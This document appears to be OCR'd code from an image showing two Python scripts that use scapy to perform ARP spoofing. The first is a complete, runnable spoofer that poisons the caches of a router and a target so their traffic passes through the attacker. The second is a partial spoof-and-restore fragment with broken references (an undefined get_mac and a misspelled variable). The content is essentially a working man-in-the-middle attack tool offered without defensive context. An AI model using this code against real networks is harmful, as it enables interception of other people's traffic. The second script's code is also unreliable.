 ```
#!/usr/bin/env python

# arp_spoofer_1.py

import scapy.all as scapy
import sys, time

def get_mac_address(ip_address):
	broadcast_layer = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
	arp_layer = scapy.ARP(pdst=ip_address)
	request_packet = broadcast_layer/arp_layer
	response_packet = scapy.srp(request_packet, timeout=2, verbose=False)[0]
	return response_packet[0][1].hwsrc

def arp_spoof(router_ip, target_ip, router_mac, target_mac):
	packet1 = scapy.ARP(op=2, hwdst=router_mac, pdst=router_ip, psrc=target_ip)
	packet2 = scapy.ARP(op=2, hwdst=target_mac, pdst=target_ip, psrc=router_ip)
	scapy.send(packet1)
	scapy.send(packet2)

target_ip = str(sys.argv[2])
router_ip = str(sys.argv[1])

target_mac = str(get_mac_address(target_ip))
print('Target MAC Address: ' + target_mac + '\n')
router_mac = str(get_mac_address(router_ip))
print('Router MAC Address: ' + router_mac + '\n')

try:
	while True:
		arp_spoof(router_ip, target_ip, router_mac, target_mac)
		time.sleep(2)
except KeyboardInterrupt:
	print('Stopping ARP spoofer...')
	exit(0)
```

```
#!/usr/bin/env python

# arp_spoofer_2.py

import scapy.all as scapy
import time
import sys

def get_mac_address(ip_address):
	broadcast_layer = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
	arp_layer = scapy.ARP(pdst=ip_address)
	request_packet = broadcast_layer/arp_layer
	response_packet = scapy.srp(request_packet, timeout=2, verbose=False)[0]
	return response_packet[0][1].hwsrc
	
def spoof(target_ip, spoof_ip):
	target_mac = get_mac(target_ip)
	packet = scapy.ARP(op=2, pdst=targets_ip, hwdst=target_mac, psrc=spoof_ip)
	scapy.send(packet, verbose=False)
	
def restore(destination_ip, source_ip):
	destination_mac = get_mac(destination_ip)
	source_mac = get_mac(source_ip)
	packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
	scapy.send(packet, count=4)
```